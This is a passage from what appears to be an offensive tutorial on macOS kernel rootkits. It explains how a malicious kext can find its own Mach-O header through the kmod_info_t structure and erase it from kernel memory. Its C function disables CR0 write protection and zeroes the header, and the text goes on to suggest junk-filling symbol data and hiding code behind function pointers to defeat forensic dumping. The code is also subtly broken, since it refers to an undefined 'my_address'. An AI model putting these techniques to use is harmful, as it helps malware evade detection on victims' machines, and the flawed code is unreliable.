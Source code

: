 Kernel extensions must have a start and stop function. Their prototype specifies
a kmod_info_t structure as first parameter. It is part of a linked list of all
loaded kernel extensions (used to hide the rootkit from kextstat but now marked
deprecated) and contains a very useful field to apply this cheap trick. 

typedef struct kmod_info {
    struct kmod_info  * next;
    int32_t             info_version;           // version of this structure
    uint32_t            id;
    char                name[KMOD_MAX_NAME];
    char                version[KMOD_MAX_NAME];
    int32_t             reference_count;        // # linkage refs to this
    kmod_reference_t  * reference_list;         // who this refs (links on)
    vm_address_t        address;                // starting address
    vm_size_t           size;                   // total size
    vm_size_t           hdr_size;               // unwired hdr size
    kmod_start_func_t * start;
    kmod_stop_func_t  * stop;
} kmod_info_t;

The "address" field contains the starting address of the currently loaded kext,
including the ASLR slide (kernel and kernel extensions Mach-O header values
include the current kernel ASLR slide). With this information we just need to
find out the total size of the header and nuke it:

int nuke_mach_header(mach_vm_address_t address)
{
	struct mach_header *mh = (struct mach_header_64*)address;
    uint32_t header_size = 0;
    if (mh->magic == MH_MAGIC_64)
    {
        header_size = mh->sizeofcmds + sizeof(struct mach_header_64);
    }
    else return 1;
    // we have total header size and startup address
    // disable CR0 write protection
    disable_wp();
    memset((void*)my_address, 0, header_size);
    enable_wp();
    return 0;
}

Instead of just zero'ing the header you could fill it with random junk data for
fun. You can even mangle data from the other commands (LINKEDIT, LC_SYMTAB,
LC_DYSYMTAB, LC_UUID). For example, there are no symbol stubs in kernel -
symbols are solved when kernel extension is loaded and calls are made
directly to the referenced symbol. This is a problem because it can be used to
detect valid code and get hints on what it is trying to do. One can generate a
table of all kernel symbols and use it to find cross references in kernel memory
and dump that code. 

Function pointers can help to hide our code - the question is how easy or not it
is to bootstrap the rootkit to search the required symbols. One solution can be
to use the techniques described before to find the symbols and then mangle the
bootstrap code - only leave in memory code using function pointers. 
Be creative, try to reduce your footprint to the maximum :-).
